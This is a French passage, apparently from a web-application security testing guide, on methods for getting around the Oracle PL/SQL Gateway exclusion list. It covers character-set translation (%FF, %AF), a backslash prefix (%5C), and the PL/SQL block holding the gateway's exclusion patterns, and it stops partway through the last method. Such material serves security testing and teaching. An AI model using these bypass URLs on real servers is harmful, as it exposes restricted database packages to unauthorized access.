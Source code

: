 Selon le jeu de caractères utilisé sur le serveur Web et sur le serveur de base de données, certains caractères sont traduits. Ainsi, selon les jeux de caractères utilisés, le caractère 'ÿ' ('0xFF') peut être converti en 'Y' sur le serveur de base de données. Un autre caractère qui est souvent converti en majuscule 'Y' est le caractère Macron - '0xAF'. Cela peut permettre à un attaquant de contourner la liste d'exclusion :

`http://www.exemple.com/pls/dad/S%FFS.PACKAGE.PROC`
`http://www.exemple.com/pls/dad/S%AFS.PACKAGE.PROC`

### Contournement de la liste d'exclusion - Méthode 5

Certaines versions de la passerelle PL/SQL permettent de contourner la liste d'exclusion avec une barre oblique inverse - `0x5C` :

`http://www.exemple.com/pls/dad/%5CSYS.PACKAGE.PROC`

### Contournement de la liste d'exclusion - Méthode 6

Il s'agit de la méthode la plus complexe pour contourner la liste d'exclusion et de la méthode la plus récemment corrigée. Si nous devions demander ce qui suit

`http://www.exemple.com/pls/dad/foo.bar?xyz=123`

le serveur d'application exécuterait ce qui suit sur le serveur de base de données :

```sql
declare
 rc__ number;
 start_time__ binary_integer;
 simple_list__ owa_util.vc_arr;
 complex_list__ owa_util.vc_arr;
begin
 start_time__ := dbms_utility.get_time;
 owa.init_cgi_env(:n__,:nm__,:v__);
 htp.HTBUF_LEN := 255;
 null;
 null;
 simple_list__(1) := 'sys.%';
 simple_list__(2) := 'dbms\_%';
 simple_list__(3) := 'utl\_%';
 simple_list__(4) := 'owa\_%';
 simple_list__(5) := 'owa.%';
 simple_list__(6) := 'htp.%';
 simple_list__(7) := 'htf.%';
 if ((owa_match.match_pattern('foo.bar', simple_list__, complex_list__, true))) then
  rc__ := 2;
 else
  null;
  orasso.wpg_session.init();
  foo.bar(XYZ=>:XYZ);
  if (wpg_docload.is_file_download) then
   rc__ := 1;
   wpg_docload.get_download_file(:doc_info);
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
  else
   rc__ := 0;
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
   owa.get_page(:data__,:ndata__);
  end if;
 end if;
```